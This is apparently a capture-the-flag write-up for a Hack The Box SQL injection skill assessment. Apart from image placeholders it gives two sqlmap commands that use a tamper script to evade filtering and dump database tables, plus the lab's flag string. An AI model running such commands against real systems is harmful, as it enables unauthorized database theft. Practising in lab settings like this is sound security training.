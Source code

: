 # Skill Assessment



<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --tamper=between --dump --batch
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req2.txt --tamper=between -T final_flag --dump --batch
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

HTB{n07\_50\_h4rd\_r16h7?!}

